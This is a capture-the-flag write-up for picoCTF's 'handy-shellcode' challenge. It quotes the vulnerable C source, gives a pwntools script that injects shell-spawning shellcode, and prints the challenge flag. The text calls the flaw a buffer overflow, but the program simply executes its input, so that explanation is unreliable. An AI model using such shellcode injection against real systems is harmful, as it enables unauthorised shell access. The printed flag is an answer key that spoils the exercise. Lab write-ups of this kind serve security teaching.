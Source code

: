 # handy-shellcode

Points: 50

# Question

This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. [Source](vuln.c).

# Hint 

You might be able to find some good shellcode online.

# Solution

By examining the source file we can see that the program use "gets" function which if vulnerable for buffer overflow 
```C
void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

First, let's run the program and try to make it crash.

![](overflow1.png)

using pwn tools its easy to exploit this program [script](script.py) and spawn shell then extract the flag

```python
from pwn import *

sh = process('vuln')
sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
sh.interactive()```


![](overflow2.png)


# Flag
picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}

